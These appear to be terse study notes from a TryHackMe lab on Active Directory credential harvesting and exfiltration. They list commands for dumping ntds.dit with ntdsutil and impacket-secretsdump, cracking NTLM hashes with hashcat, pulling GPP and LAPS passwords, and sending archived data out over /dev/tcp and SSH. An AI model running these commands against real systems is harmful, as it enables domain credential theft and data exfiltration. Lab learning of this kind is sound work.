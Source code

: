     powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"


    C:\Windows\System32\config\SYSTEM
    C:\Windows\System32\config\SECURITY



impacket-secretsdump   -system SYSTEM -ntds ntds.dit local


Remote Dumping (With Credentials)
impacket-secretsdump   -just-dc THM.red/<AD_Admin_User>@10.10.253.212 
impacket-secretsdump  -just-dc-ntlm THM.red/<AD_Admin_User>@10.10.253.212


crack hash 
hashcat -m 1000 -a 0  /path/to/wordlist/such/as/rockyou.txt


# Local Administrator Password Solution (LAPS) 

Group Policy Preferences (GPP)

https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1


Local Administrator Password Solution (LAPS)

ms-mcs-AdmPwd : attribute contains a clear-text password of the local administrator
ms-mcs-AdmPwdExpirationTime : contains the expiration time to reset the password

LAPS uses admpwd.dll to change the local administrator password and update the value of ms-mcs-AdmPwd

Enumerate for LAPS

dir "C:\Program Files\LAPS\CSE"

Listing the available PowerShell cmdlets for LAPS 
Get-Command *AdmPwd*

Finding Users with AdmPwdExtendedRights Attribute 
Find-AdmPwdExtendedRights -Identity THMorg

Finding Users belong to THMGroupReader Group 
net groups "THMGroupReader"

Getting the Password
Get-AdmPwdPassword -ComputerName creds-harvestin




======================= dataxexfilt =========================


tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080

restoring data
dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar


[+] SSH 
tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"
